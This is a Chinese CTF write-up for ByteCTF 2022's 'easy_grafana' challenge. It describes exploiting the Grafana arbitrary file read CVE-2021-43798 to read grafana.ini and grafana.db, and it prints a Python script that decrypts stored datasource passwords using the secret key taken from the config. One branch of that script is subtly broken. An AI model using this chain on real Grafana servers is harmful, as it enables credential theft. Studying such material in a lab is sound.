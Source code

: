 ## web

被折磨了一早上还没做出来😭

**然后立誓，少打比赛，多复现！**

### easy_grafana

一看是个框架搭的网站，直接去搜该框架的漏洞发现**[CVE-2021-43798]**，可以任意文件读取

但是按原payload会报400，原因

> 目前已经部署的 Grafana 会有很多被 nginx/apache 等中间件反向代理的情况,有的中间件的 [URI_normalization](https://en.wikipedia.org/wiki/URI_normalization) 机制导致 URL 被标准化。

参考[grafana漏洞分析](https://blog.riskivy.com/grafana-%e4%bb%bb%e6%84%8f%e6%96%87%e4%bb%b6%e8%af%bb%e5%8f%96%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90%e4%b8%8e%e6%b1%87%e6%80%bbcve-2021-43798/)

可用#绕过

![image-20220925222150354](D:\Typora\note\CTF\web\比赛wp\bytectf2022.assets\image-20220925222150354.png)

主要文件

```ABAP
/etc/grafana/grafana.ini配置
/var/lib/grafana/grafana.db数据库
```

直接读flag没文件，读**grafana**的数据库文件看到了一串神奇的密码

![image-20220925222258092](D:\Typora\note\CTF\web\比赛wp\bytectf2022.assets\image-20220925222258092.png)

但是不知道有什么用，而且被加密过(以为能连mysql的说，然后并不行...)

然后找`.bash_history`，直接没这个文件

然后就放弃了。。。

后面看pysnow师傅的wp发现flag就在那段密码里面...

解密就需要**key**，在配置文件中可找到

![image-20220925222844774](D:\Typora\note\CTF\web\比赛wp\bytectf2022.assets\image-20220925222844774.png)

这里给出了解密脚本

`https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798`

替换一下打印就行

```php
import base64
from hashlib import pbkdf2_hmac
from Crypto.Cipher import AES

saltLength = 8
aesCfb = "aes-cfb"
aesGcm = "aes-gcm"
encryptionAlgorithmDelimiter = '*'
nonceByteSize = 12

def decrypt(payload, secret):
    alg, payload, err = deriveEncryptionAlgorithm(payload)

    if err is not None:
        return None, err

    if len(payload) < saltLength:
        return None, "Unable to compute salt"

    salt = payload[:saltLength]
    key, err = encryptionKeyToBytes(secret, salt)

    if err is not None:
        return None, err

    if alg == aesCfb:
        return decryptCFB(payload, key)
    elif alg == aesGcm:
        return decryptGCM(payload, key)

    return None, None


def deriveEncryptionAlgorithm(payload):
    if len(payload) == 0:
        return "", None, "Unable to derive encryption"

    if payload[0] != encryptionAlgorithmDelimiter.encode():
        return aesCfb, payload, None

    payload = payload[:1]


def encryptionKeyToBytes(secret, salt):
    return pbkdf2_hmac("sha256", secret.encode("utf-8"), salt, 10000, 32), None


def decryptGCM(payload, key):
    nonce = payload[saltLength: saltLength+nonceByteSize]
    payload = payload[saltLength+nonceByteSize:]

    gcm = AES.new(key, AES.MODE_GCM, nonce, segment_size=128)

    return gcm.decrypt(payload).decode(), None


def decryptCFB(payload, key):
    if len(payload) < AES.block_size:
        return None, "Payload too short"

    iv = payload[saltLength: saltLength + AES.block_size]
    payload = payload[saltLength+AES.block_size:]

    cipher = AES.new(key, AES.MODE_CFB, iv, segment_size=128)

    return cipher.decrypt(payload).decode(), None

if __name__ == "__main__":
    grafanaIni_secretKey = "SW2YcwTIb9zpO1hoPsMm"
    dataSourcePassword = "b0NXeVJoSXKPoSYIWt8i/GfPreRT03fO6gbMhzkPefodqe1nvGpdSROTvfHK1I3kzZy9SQnuVy9c3lVkvbyJcqRwNT6/"

    encrypted = base64.b64decode(dataSourcePassword.encode())
    pwdBytes, _ = decrypt(encrypted, grafanaIni_secretKey)
    print(pwdBytes)
```

![image-20220925222953587](D:\Typora\note\CTF\web\比赛wp\bytectf2022.assets\image-20220925222953587.png)

<font color='pink'>**只能说见识太少了**</font>